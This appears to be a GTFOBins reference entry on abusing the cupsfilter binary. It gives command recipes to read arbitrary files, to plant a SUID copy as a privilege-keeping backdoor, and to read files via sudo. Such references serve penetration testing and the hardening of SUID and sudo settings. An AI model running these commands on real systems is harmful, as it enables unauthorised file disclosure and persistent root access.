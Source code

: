 # GTFOBin: cupsfilter

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
cupsfilter -i application/octet-stream -m application/octet-stream $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which cupsfilter) .

LFILE=file_to_read
./cupsfilter -i application/octet-stream -m application/octet-stream $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo cupsfilter -i application/octet-stream -m application/octet-stream $LFILE
```